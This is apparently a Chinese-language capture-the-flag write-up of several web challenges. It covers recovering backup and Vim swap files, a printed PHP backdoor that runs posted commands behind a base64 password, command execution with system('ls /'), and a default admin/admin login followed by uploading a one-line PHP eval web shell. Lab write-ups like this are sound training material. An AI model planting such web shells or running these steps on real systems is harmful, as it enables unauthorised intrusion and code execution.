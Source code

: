 似乎备份文件里有什么东西，去看看

试试常用的备份文件

发现有/www.zip，在index.php.bak里发现一个彩蛋

![](./images/image-37.png)

## Vim yyds

![](./images/image-38.png)

只知道VIM是个编辑器，然后去查了一下信息

vim编辑的index.php文件，在编辑状态强制退出终端，会在同目录下产生一个.index.php.swp文件，我们可以使用vim -r .index.php.swp恢复文件

```
<?php
            error_reporting(0);
            $password = "Give_Me_Your_Flag";
            echo "<p>can can need Vim </p>";
            if ($_POST['password'] === base64_encode($password)) {
                echo "<p>Oh You got my password!</p>";
                eval(system($_POST['cmd']));
            }
            ?>
```

POST一个base64加密后的password，再POST一个cmd执行命令就行

## PHP是世界上最好的语言！！

进去之后好像是一个转化工具

![](./images/image-39.png)

猜测有可能是命令执行，在右边随便试试，

run一下system("ls /");目录就爆出来了

然后直接cat flag就行

这道题似乎没有过滤什么东西

## 作业管理系统

进去就是一个登录，试试用admin，admin登录，进去之后如下

![](./images/image-40.png)

下面有个创建文件，随便创建一个1.php，然后编辑一下

```
<?php @eval($_POST['hyh']);?>
```
